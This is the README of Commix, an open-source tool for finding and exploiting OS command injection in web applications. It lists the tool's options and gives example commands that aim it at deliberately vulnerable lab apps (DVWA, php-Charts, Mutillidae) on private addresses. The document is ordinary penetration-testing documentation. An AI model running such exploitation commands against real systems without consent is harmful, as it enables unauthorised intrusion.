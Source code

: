 	                                       __
	   ___    ___     ___ ___     ___ ___ /\_\   __  _ 
	  /'___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\
	 /\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
	 \ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\
	  \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ { v0.01b }

	+--
	Automated All-in-One OS Command Injection and Exploitation Tool
	Copyright (c) 2015 Anastasios Stasinopoulos (@ancst)
	+--

#General Information

Commix (short for [comm]and [i]njection e[x]ploiter) has a simple environment and it can be used, from web developers, penetration testers or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in Python programming language.


#Disclaimer
The tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes!!


#Requirements
[Python](http://www.python.org/download/) version **2.6.x** or **2.7.x** is required for running this program.

#Installation
Download commix by cloning the Git repository:

    git clone https://github.com/stasinopoulos/commix.git commix


#Usage
    Usage: python commix.py [options]

####Options
    -h, --help            Show help and exit.
    --verbose             Enable the verbose mode.
    --install             Install 'commix' to your system.
    --version             Show version number and exit.
    --update              Check for updates (apply if any) and exit.

####Target
    This options has to be provided, to define the target URL.

    --url=URL           Target URL.
    --url-reload        Reload target URL after command execution.

####Request
    These options can be used, to specify how to connect to the target
    URL.

    --host=HOST         HTTP Host header.
    --referer=REFERER   HTTP Referer header.
    --user-agent=AGENT  HTTP User-Agent header.
    --cookie=COOKIE     HTTP Cookie header.
    --headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
    --proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
    --auth-url=AUTH_..  Login panel URL.
    --auth-data=AUTH..  Login parameters and data.
    --auth-cred=AUTH..  HTTP Basic Authentication credentials (e.g.
                        'admin:admin').
####Injection
    These options can be used, to specify which parameters to inject and
    to provide custom injection payloads.

    --data=DATA         POST data to inject (use 'INJECT_HERE' tag).
    --suffix=SUFFIX     Injection payload suffix string.
    --prefix=PREFIX     Injection payload prefix string.
    --technique=TECH    Specify a certain injection technique : 'classic',
                        'eval-based', 'time-based' or 'file-based'.
    --maxlen=MAXLEN     The length of the output on time-based technique
                        (Default: 10000 chars).
    --delay=DELAY       Set Time-delay for time-based and file-based
                        techniques (Default: 1 sec).
    --base64            Use Base64 (enc)/(de)code trick to prevent false-
                        positive results.
####Usage Examples
**Exploiting Damn Vulnerable Web App**

    python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
    
**Exploiting php-Charts 1.0 using injection payload suffix & prefix string:**

    python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="//" --suffix="'" 
    
**Exploiting OWASP Mutillidae using Extra headers and HTTP proxy:**

    python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --data="target_host=INJECT_HERE" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"
